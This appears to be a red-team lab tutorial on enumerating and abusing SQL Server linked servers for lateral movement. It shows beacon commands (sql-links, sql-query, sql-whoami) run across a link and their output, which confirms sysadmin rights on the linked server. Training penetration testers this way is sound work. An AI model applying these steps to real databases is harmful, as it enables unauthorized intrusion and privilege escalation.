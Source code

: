 # Linked Servers

SQL server links can be used to connect a SQL instance with additional data sources, including other SQL servers.  It's possible to enumerate the links that a server has with other SQL instances, and even exploit them for lateral movement.

The `sql-links` BOF will show any links that the target server has.

```batch
beacon> sql-links lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Enumerating linked servers on lon-db-1

name | product | provider | data_source | 
------------------------------------------
LON-DB-2 | SQL Server | SQLNCLI | LON-DB-2 | 

[*] Disconnecting from server
```

This shows that _lon-db-1_ has a link with another SQL server called _lon-db-2_.  We can use this to query the linked server, e.g. using `sql-query`.

```batch
beacon> sql-query lon-db-1 "SELECT @@SERVERNAME" "" lon-db-2

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-2 via lon-db-1

 | 
---
lon-db-2 | 

[*] Disconnecting from server
```

Each one of these SQL BOFs has a `linkedserver` option for them to work across a link.

```batch
beacon> sql-whoami lon-db-1 "" lon-db-2

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Determining user permissions on lon-db-2 via lon-db-1
[*] Logged in as CONTOSO\rsteel
[*] Mapped to the user dbo
[*] Gathering roles...
 |--> User is a member of the public role
 |--> User is a member of the db_owner role
 |--> User is a member of the db_accessadmin role
 |--> User is a member of the db_securityadmin role
 |--> User is a member of the db_ddladmin role
 |--> User is a member of the db_backupoperator role
 |--> User is a member of the db_datareader role
 |--> User is a member of the db_datawriter role
 |--> User is NOT a member of the db_denydatareader role
 |--> User is NOT a member of the db_denydatawriter role
 |--> User is a member of the sysadmin role
 |--> User is a member of the setupadmin role
 |--> User is a member of the serveradmin role
 |--> User is a member of the securityadmin role
 |--> User is a member of the processadmin role
 |--> User is a member of the diskadmin role
```